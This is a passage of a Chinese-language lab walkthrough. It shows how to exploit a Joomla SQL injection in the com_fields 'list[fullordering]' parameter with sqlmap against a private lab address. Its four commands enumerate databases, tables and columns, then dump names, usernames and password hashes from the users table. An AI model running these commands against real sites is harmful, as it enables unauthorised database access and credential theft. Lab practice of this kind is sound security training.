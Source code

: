   
### sqlmap注入  
  
**注意改一下自己靶场的ip地址**  
#### 爆出数据库  
```
sqlmap -u "http://192.168.2.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```  
```

```  
  
选项都选yes  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlicu3dn9HicO5WlKIRQQCClvZibduSkO37TapOKB2NSzcDfIInImbSpyUg/640?wx_fmt=png&from=appmsg "")  
  
  
  
得到5个数据库，安装一般情况下的命名，选择爆出joomladb数据库中的数据表  
#### 爆出数据表  
```
sqlmap -u "http://192.168.2.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWltAIGSQH5PBTqAibxIruGAb4XTHL3NmT6RYCBIO43hFiaksWbaraHmjdA/640?wx_fmt=png&from=appmsg "")  
  
  
  
得到了一堆数据表，但是一般的用户名一些登录信息在users表里，所以我们来爆出该表的字段  
#### 爆出数据表的字段  
```
sqlmap -u "http://192.168.2.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --columns -p list[fullordering]
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWllKOPaWJujS02dYuvlq9Jdj5hD9lFfnCgns5D1L9FhhGxDNsPg7q30g/640?wx_fmt=png&from=appmsg "")  
  
  
  
得到全部的字段，但是我们前面发现了两个登录的页面，我们来爆出name,username,password三个字段  
#### 爆出数据表的数据  
```
sqlmap -u "http://192.168.2.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" -C name,username,password --dump -p list[fullordering]
```  
```

```  
  